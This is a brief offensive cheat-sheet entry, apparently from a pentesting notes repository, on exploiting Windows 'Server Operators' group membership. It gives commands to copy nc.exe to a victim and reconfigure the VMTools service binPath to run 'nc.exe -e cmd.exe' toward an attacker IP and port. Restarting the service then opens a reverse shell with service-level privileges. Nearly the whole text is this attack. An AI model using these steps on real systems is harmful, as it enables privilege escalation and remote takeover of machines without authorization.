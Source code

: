 Some groups have certain privileges that can be exploited

## Server Operators

Exploitation
```bash
# List services running on target
services
	examples may include VMTools, VGAuthService, etc...

# Transfer over nc.exe to victim

# Modify path
sc.exe config VMTools binPath="C:\Path\to\nc.exe -e cmd.exe <attack_ip> <lport>"

# Start nc listener

# Restart VMTools
sc.exe stop VMTools
sc.exe start VMTools
```